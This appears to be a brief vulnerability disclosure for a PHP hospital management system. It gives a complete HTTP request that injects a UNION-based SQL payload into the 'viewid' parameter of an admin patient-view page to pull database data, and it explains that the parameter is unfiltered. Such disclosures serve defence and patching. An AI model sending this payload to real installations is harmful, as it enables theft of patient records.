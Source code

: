 You can go to https://phpgurukul.com/hospital-management-system-in-php/ download this website 

## EXP:

```php
GET /hms/admin/view-patient.php?viewid=-1%27%20+UNION+ALL+SELECT+1,2,user(),4,5,6,7,8,9,10,11%20--%20+ HTTP/1.1
Host: 192.168.1.129
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3dvh0itqcaqq5rmkh3cs78t7n7
Connection: close
```

Since the ID parameter is not filtered with special characters on this page, malicious SQL statements can be executed to obtain more data
